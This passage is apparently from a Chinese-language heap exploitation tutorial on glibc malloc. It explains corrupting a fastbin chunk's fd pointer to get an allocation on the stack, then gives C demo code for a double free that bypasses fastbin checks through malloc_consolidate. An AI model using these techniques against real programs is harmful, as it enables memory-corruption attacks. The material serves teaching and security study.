 
​    这时候我们再去malloc两次，还剩一个指向chunk a的free chunk，而前面我们也申请到了指向它的 chunk d，可以通过它编辑chunk a的fd 指针，填充一个有意义的地址：栈地址减0x8（因为伪造的chunk要有个 size，size在&stack_var - 0x8的位置上）

​    `*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`

   通过调试我们可以看到，地址为``0x603000``的``chunk``的``fd``指针指向的是栈上的地址，这样的话，malloc一次之后再次申请的时候就会申请到fd指针指向的0x7fffffffdac0

 ![image-20211226155944925](/images/heap/image-20211226155944925.png)

最后可以看到我们已经分配栈上的内存，并写入了数据GGGGGGGG。

 ![image-20211226155950519](/images/heap/image-20211226155950519.png)

## fastbin_dup_consolidate

这个程序展示了利用在large bin的分配中malloc_consolidate 机制绕过 fastbin对double free的检查，这个检查在 fastbin_dup中已经展示过了，只不过它利用的是在两次 free 中间插入一次对其它chunk的free。

​    源码如下。

 ```c
 #include <stdio.h>
 #include <stdint.h>
 #include <stdlib.h>
 #include <string.h>
 
 int main() {
     void* p1 = malloc(0x10);
     strcpy(p1, "AAAAAAAA");
     void* p2 = malloc(0x10);
     strcpy(p2, "BBBBBBBB");
     fprintf(stderr, "申请两个 fastbin 范围内的 chunk: p1=%p p2=%p\n", p1, p2);
     fprintf(stderr, "先 free p1\n");
     free(p1);
     void* p3 = malloc(0x400);
     fprintf(stderr, "去申请 largebin 大小的 chunk，触发 malloc_consolidate(): p3=%p\n", p3);
     fprintf(stderr, "因为 malloc_consolidate(), p1 会被放到 unsorted bin 中\n");
     free(p1);
     fprintf(stderr, "这时候 p1 不在 fastbin 链表的头部了，所以可以再次 free p1 造成 double free\n");
     void* p4 = malloc(0x10);
     strcpy(p4, "CCCCCCC");
     void* p5 = malloc(0x10);
     strcpy(p5, "DDDDDDDD");
 ```